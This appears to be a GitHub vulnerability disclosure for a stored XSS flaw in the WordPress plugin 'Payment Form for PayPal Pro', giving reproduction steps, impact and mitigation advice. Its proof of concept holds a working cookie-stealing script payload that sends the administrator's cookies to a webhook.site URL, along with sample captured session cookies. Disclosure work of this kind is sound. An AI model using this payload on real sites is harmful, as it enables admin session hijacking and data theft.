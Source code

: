 # wordpress-plugin-xss-vuln
Stored Cross-Site Scripting (XSS) in plugin Payment Form for PayPal Pro  

  

## **Description**
A **Stored Cross-Site Scripting (XSS)** vulnerability exists in the **Payment Form for PayPal Pro** plugin for WordPress. This vulnerability allows an attacker to inject arbitrary JavaScript code into the "Form Name" field, which is then stored in the database and executed when an administrator interacts with the form.

## **Proof of Concept (PoC)**

### **Steps to Reproduce:**
1. Navigate to the plugin settings page in WordPress Admin.
2. Create a new form and enter the following payload in the **Form Name** field:
   ```html
   <script>document.location='https://webhook.site/YOUR-UNIQUE-ID?cookie='+document.cookie</script>
   ```
3. Save the form.
4. Click on the **Messages** button for the form.
5. The injected JavaScript will execute, sending the administrator's cookies to the attacker's webhook.

### **Captured Data (Example):**
```
wp-settings-time-1=1736368536; wp-settings-1=mfold%3Do;
wordpress_test_cookie=WP%20Cookie%20check;
PHPSESSID=na7d4lig2go1f0qmgsuldh8ehc;
rand_code=e824626c35b2e1cdf4475555b7cda814
```
These cookies can potentially allow an attacker to hijack an admin session.

## **Impact**
An attacker could exploit this vulnerability to:
- Steal administrator session cookies and hijack their account.
- Modify website content, inject malicious scripts, or deface the site.
- Redirect users to phishing sites or install malware.

## **Mitigation**
To fix this issue, the plugin developer should:
- Sanitize user input using `esc_html()`, `esc_attr()`, or `wp_kses()` before rendering in the admin panel.
- Use `wp_nonce` to prevent CSRF-based XSS attacks.
- Implement proper input validation and output encoding.

## **References**
- [WordPress Plugin Repository](https://wordpress.org/plugins/)  
- [OWASP XSS Guide](https://owasp.org/www-community/attacks/xss/)  

**Reported by:** Doan Dinh Van
**Affiliation: Fore-Z co.ltd
**Disclosure Date:** 28/03/2025  
